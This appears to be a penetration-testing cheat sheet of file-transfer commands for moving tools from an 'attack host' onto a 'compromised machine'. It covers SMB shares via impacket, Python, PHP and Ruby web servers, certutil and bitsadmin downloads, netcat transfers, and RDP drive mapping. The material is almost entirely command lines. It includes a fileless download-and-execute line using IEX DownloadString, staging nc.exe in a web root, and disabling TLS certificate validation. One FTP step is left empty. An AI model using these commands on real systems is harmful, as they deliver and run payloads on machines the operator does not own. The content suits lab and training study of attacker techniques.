

### **CONNECTING TO AN SMB SHARE USING POWERSHELL**

1.  Set Up an SMB Server with Credentials  
    `sudo impacket-smbserver hackfast $(pwd) -smb2support -user hackfast -password hackfast`
2.  Convert Password to Secure String  
    `$pass = convertto-securestring 'hackfast' -AsPlainText -Force`
3.  Create Credential Object  
    `$cred = New-Object System.Management.Automation.PSCredential('hackfast',$pass)`
4.  Map the Network Drive  
    `New-PSDrive -Name hackfast -PSProvider FileSystem -Credential $cred -Root \\[IP-ADDRESS]\hackfast`
5.  Navigate to the Mapped Drive  
    `cd hackfast:`

### **DOWNLOADING FILES VIA SMB (NO CREDENTIALS)**

1.  Set Up an SMB Server  
    `sudo impacket-smbserver share -smb2support .`
2.  Download a File from SMB Server:  
    `copy \\[IP-ADRESS]\share\file.txt .`

### **DOWNLOADING FILES VIA SMB (WITH CREDENTIALS)**

3.  Configure SMB Server Using impacket-smbserver  
    `sudo impacket-smbserver hackfast $(pwd) -smb2support -user hackfast -password hackfast`
4.  Configure SMB Server Using smbserver.py  
    `smbserver.py hackfast . -smb2support -username hackfast -password hackfast`
5.  Map a Network Drive  
    `net use z: \\[IP-ADRESS]\hackfast /user:hackfast hackfast`
6.  Copy a File from the Mapped Drive  
    `copy z:\file.txt .`

### **DOWNLOADING FILES VIA FTP**

1.  Start an FTP Server:  
    `sudo python3 -m pyftpdlib --port 21`
2.  Downloading a File Using PowerShell  
    `(New-Object Net.WebClient).DownloadFile('ftp://[IP-ADDRESS]/file.txt', 'C:\Users\Public\file.txt')`
3.  Automate FTP Downloads with Command File:  
    
    

### **SETTING UP AN HTTP SERVER AND DOWNLOADING FILES USING PYTHON 2**

1.  Start a HTTP server:  
    `python -m SimpleHTTPServer 8000`
    
2.  Download File Using PowerShell :  
    `powershell iwr -uri http://[IP-ADDRESS]:8000/file.txt -outfile file.txt`
    
3.  Download File Using certutil  
    `certutil -urlcache -f http://[IP-ADDRESS]:8000/file.txt file.txt`
    
4.  Download File Using bitsadmin  
    `bitsadmin /transfer debjob /download /priority normal http://[IP-ADDRESS]:8000/file.txt C:\Users\\Public\file.txt`
    

### **SETTING UP AN HTTP SERVER AND DOWNLOADING FILES USING PYTHON 3**

1.  Start a HTTP server:  
    `python3 -m http.server 8000`
    
2.  Download File Using PowerShell :  
    `powershell iwr -uri http://[IP-ADDRESS]:8000/file.txt -outfile file.txt`
    
3.  Download File Using certutil  
    `certutil -urlcache -f http://[IP-ADDRESS]:8000/file.txt file.txt`
    
4.  Download File Using bitsadmin  
    `bitsadmin /transfer debjob /download /priority normal http://[IP-ADDRESS]:8000/file.txt C:\Users\\Public\file.txt`
    

### **SETTING UP HTTP SERVER AND FILE DOWNLOAD USING PHP**

1.  Start a HTTP server:  
    `php -S 0.0.0.0:8000`
    
2.  Download File Using PowerShell :  
    `powershell iwr -uri http://[IP-ADDRESS]:8000/file.txt -outfile file.txt`
    
3.  Download File Using certutil  
    `certutil -urlcache -f http://[IP-ADDRESS]:8000/file.txt file.txt`
    
4.  Download File Using bitsadmin  
    `bitsadmin /transfer debjob /download /priority normal http://[IP-ADDRESS]:8000/file.txt C:\Users\Public\file.txt`
    

### **SETTING UP HTTP SERVER AND FILE DOWNLOAD USING RUBY**

1.  Start a HTTP Server:  
    `ruby -run -e httpd . -p 8000`
    
2.  Download File Using PowerShell :  
    `powershell iwr -uri http://[IP-ADDRESS]:8000/file.txt -outfile file.txt`
    
3.  Download File Using certutil  
    `certutil -urlcache -f http://[IP-ADDRESS]:8000/file.txt file.txt`
    
4.  Download File Using bitsadmin  
    `bitsadmin /transfer debjob /download /priority normal http://[IP-ADDRESS]:8000/file.txt C:\Users\\Public\file.txt`
    

### **SETTING UP AN APACHE SERVER AND FILE DOWNLOAD**

1.  Place File into the Apache Web Directory:  
    `cp nc.exe /var/www/html`
2.  Start the Apache Server:  
    `sudo systemctl start apache2`
3.  Downloading a File via Web Browser or PowerShell  
    `Invoke-WebRequest -Uri http://[IP-ADDRESS]/file.txt -OutFile file.txt`

### **ENCODING AND DECODING FILE WITH BASE64**

1.  Generate MD5 checksum:  
    `md5sum file.txt`
2.  Encoding File Content to Base64  
    `cat file.txt | base64 -w 0; echo`
3.  Decoding Base64 Content on Windows  
    `[IO.File]::WriteAllBytes("C:\Temp\file.txt", [Convert]::FromBase64String("[BASE64-STRING]"))`
4.  Verify the MD5 checksum of the decoded file:  
    `Get-FileHash C:\Temp\file.txt -Algorithm MD5`

### **DOWNLOADING FILES FROM A REMOTE SESSION**

1.  Create a PowerShell Remoting session:  
    `$Session = New-PSSession -ComputerName DATABASE01`
2.  Copy the file from the remote session to your local machine:  
    `Copy-Item -Path "C:\Users\Administrator\Desktop\file.txt" -Destination C:\ -FromSession $Session`

### **FILE TRANSFERS WITH NETCAT AND NCAT**

1.  Downloading a File (Receiving)
    - Using Netcat On the Compromised Machine (Listening):  
        `nc -l -p 8000 > received_file.exe`
2.  On the Attack Host (Sending):
    - Using Netcat  
        `nc -q 0 [IP_ADRESS] 8000 < file.exe`
    - Using Ncat  
        `ncat --send-only [IP_ADRESS] 8000 < file.exe`

### **DOWNLOADING FILES VIA RDP (LINUX TO WINDOWS)**

1.  Using rdesktop for File Transfer  
    `rdesktop [IP-ADRESS] -d [DOMAIN] -u [USERNAME] -p '[PASSWORD]' -r disk:linux='/home/user/rdesktop/files'`
2.  Using xfreerdp for File Transfer  
    `xfreerdp /v:[IP-ADRESS] /d:[DOMAIN] /u:[USERNAME] /p:'[PASSWORD]' /drive:[NAME],[PATH]`
3.  Accessing Mounted Directory in RDP Session  
    Connect to `\\tsclient\` within the RDP session to transfer files to and from the mounted directory.

### **POWERSHELL WEB DOWNLOADS**

1.  Downloading Files Using DownloadFile Method  
    `(New-Object Net.WebClient).DownloadFile('http://[IP-ADRESS]:8000/file.ps1','C:\Temp\file.ps1')`
    
2.  Using DownloadFileAsync for Non-Blocking Downloads  
    `(New-Object Net.WebClient).DownloadFileAsync('http://[IP-ADRESS]:8000/file.ps1', 'C:\Temp\file.ps1')`
    
3.  Executing Fileless Downloads Using DownloadString  
    `IEX (New-Object Net.WebClient).DownloadString('http://[IP-ADRESS]:8000/file.ps1')`
    
4.  Downloading File Using Invoke-WebRequest  
    `Invoke-WebRequest http://[IP-ADRESS]:8000/file.ps1 -OutFile C:\Temp\file.ps1`
    
5.  Bypassing Internet Explorer Configuration  
    `Invoke-WebRequest http://[IP-ADRESS]:8000/file.ps1 -UseBasicParsing`
    
6.  Bypassing SSL/TLS Secure Channel Issues:  
    `[System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}`